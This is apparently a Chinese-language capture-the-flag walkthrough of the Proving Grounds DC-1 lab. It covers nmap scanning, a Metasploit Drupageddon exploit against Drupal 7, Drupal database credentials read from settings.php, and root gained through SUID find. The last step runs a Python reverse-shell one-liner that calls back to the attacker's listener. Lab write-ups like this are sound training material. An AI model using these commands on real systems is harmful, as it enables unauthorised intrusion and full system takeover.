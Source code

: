 # Proving Grounds->DC-1 靶场笔记

### 惯例先扫ip段

```
nmap -sn -v 192.168.218.0/24
```

只有192.168.218.193、192.168.218.254（网关）

### 对192.168.218.193进行端口扫描

```
nmap -p- -sV -sC --open 192.168.218.193
```

扫描结果如下

```
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey:
|   1024 c4:d6:59:e6:77:4c:22:7a:96:16:60:67:8b:42:48:8f (DSA)
|   2048 11:82:fe:53:4e:dc:5b:32:7f:44:64:82:75:7d:d0:a0 (RSA)
|_  256 3d:aa:98:5c:87:af:ea:84:b8:23:68:8d:b9:05:5f:d8 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to Drupal Site | Drupal Site
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Apache/2.2.22 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          46232/tcp   status
|   100024  1          48086/tcp6  status
|   100024  1          53990/udp   status
|_  100024  1          57904/udp6  status
46232/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

出货不少，22、80、111、46232

80进去看是Drupal Site的登录

进去新建用户。发现admin已经被占用了

也没有注入的地方

中间件是Apache 2.2

CMS是Drupal 7，国外挺有名的

searchsploit看看有没有洞

![image-20230418170902641](https://s2.loli.net/2023/04/23/Iqwlk6yvxusLcK7.png)

好家伙，重点看下Drupageddon

Drupageddon 是 Drupal 版本 <7.32 中暴露的一个漏洞。  它允许远程代码执行和 shell 访问。 

使用 msfconsole 看看exp能不能一发入魂吧

![image-20230418165637164](https://s2.loli.net/2023/04/23/txvpeqoZLJ76lDw.png)



search drupageddon 搜一下



![image-20230418171829029](https://s2.loli.net/2023/04/23/uelXnQs6URY4rM9.png)

加载这个exp

use exploit/multi/http/drupal_drupageddon

![image-20230418172218547](https://s2.loli.net/2023/04/23/vNTPylkObd18cfM.png)

show options看下需要哪些参数

![image-20230418172416752](https://s2.loli.net/2023/04/23/UMZF439LrQnVDRl.png)

需要RHOST（靶机ip）、LHOST（你的ip）

```
set RHOST 192.168.213.193
set LHOST 192.168.45.5
run 如果没连上就多run几次
getuid
```

![image-20230418203800016](https://s2.loli.net/2023/04/23/BNHOfAv4jJpsmT6.png)

先ls看一眼
找到了flag1.txt
提示我去看配置文件 但是我没着急去找配置文件

![image-20230418185608663](https://s2.loli.net/2023/04/23/OH5RJInsaCefrty.png)

我又看了下passwd
cat /etc/passwd

![image-20230418185724614](https://s2.loli.net/2023/04/23/iKVzhIxQs67FnvA.png)

```
找到了flag4用户，我决定去home目录看看
cd /home/
ls -al
发现确实有flag4目录，但是还有一个local.txt
cat local.txt 第一个flag到手
60e98b8e80b9279ff2e814d6f5728268
```

![image-20230418204100909](https://s2.loli.net/2023/04/23/uTrZvRGyEQxcKMz.png)

cd flag看下
找到flag4.txt

![image-20230418190020805](https://s2.loli.net/2023/04/23/Ne1UTAqPZQO4rc2.png)

提示我们去root目录，root权限肯定是没有的。该怎么办呢

回过头再找这个cms的配置文件位置
cat /var/www/sites/default/settings.php 

```
<?php

/**
 *
 * flag2
 * Brute force and dictionary attacks aren't the
 * only ways to gain access (and you WILL need access).
 * What can you do with these credentials?
 *
 */

$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupaldb',
      'username' => 'dbuser',
      'password' => 'R0ck3t',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',

```

```
得到了数据库的名字、用户名、密码,提示我们看看这些凭据能做什么
看看有没有mysql进程吧
ps -ef|grep 'mysql'
```



![image-20230418190441362](https://s2.loli.net/2023/04/23/cLNFCIpmfETaO8P.png)

```
直接连mysql会提示mysql不存在
mysql -u dbuser -p
报错
[-] Unknown command: mysql
甚至连whoami都执行不了
进到shell里面
whoai
id
```

<img src="https://s2.loli.net/2023/04/23/L1JEWaOsAM8DTwc.png" alt="image-20230418204759202" style="zoom:80%;" />

试一下mysql登录

```
mysql -u dbuser -p
r0ck3t
use drupaldb;
select * from users;
登录直接给拒绝了
```

![image-20230418205354935](https://s2.loli.net/2023/04/23/njDT9gpmyF7seYo.png)

```
看看能不能直接提权，试一下find
find `which find` -exec whoami \;

常规操作利用find 反弹shell

先本机监听
nc -lvvnp 9919
靶机再开端口
find /etc/passwd -exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.5",9919));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' \;

find /etc/passwd -exec python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.5",9919));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-ip"]);' \;
有的表哥的脚本是-ip 有的是-p 我的-ip一直连不上就用的-p

```

![image-20230418210018483](https://s2.loli.net/2023/04/23/rdFhXPbuSD9mBQR.png)

```
whoami 确定root权限，之后一发入魂
ls -al
pwd
cat flag4.txt
cd /root
ls -al
cat thefinalflg.txt
cat proof.txt
```

![image-20230418210445505](https://s2.loli.net/2023/04/23/2LB5yobFnX7RDuP.png)

```
这时候咱们再看看mysql，还是不让进，endl
有些靶场在你连接到shell之后，会在一两分钟给你退掉，所以，在连上之后，先稳定shell
https://overthewire.org/wargames/bandit/
find / -user root -perm -4000 -print 2>/dev/null
https://gtfobins.github.io/
```

![image-20230418211129416](https://s2.loli.net/2023/04/23/WZVcqyLYX23DThF.png)
